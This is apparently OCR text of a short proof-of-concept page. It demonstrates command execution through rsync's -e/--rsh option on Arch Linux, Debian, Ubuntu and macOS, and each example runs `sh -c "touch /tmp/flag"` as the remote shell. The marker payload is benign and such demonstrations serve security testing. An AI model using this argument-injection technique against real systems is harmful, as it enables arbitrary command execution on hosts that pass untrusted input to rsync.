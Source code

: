 *Note: All tested versions require spaces and append `-l git github.com rsync
--server . .` to command:*

## archlinux (rsync 3.1.2)
```
rsync -e='sh -c "touch /tmp/flag" --' /proc/self/status git@github.com:
```

## debian (rsync 3.1.1)
```
rsync -e='sh -c "touch /tmp/flag" --' /proc/self/status git@github.com:
```

## ubuntu (rsync 3.1.2)
```
rsync -e='sh -c "touch /tmp/flag" --' /proc/self/status git@github.com:
```

## macOS (rsync 2.6.9)
```
rsync --rsh='sh -c "touch /tmp/flag" --' /proc/self/status git@github.com:
```

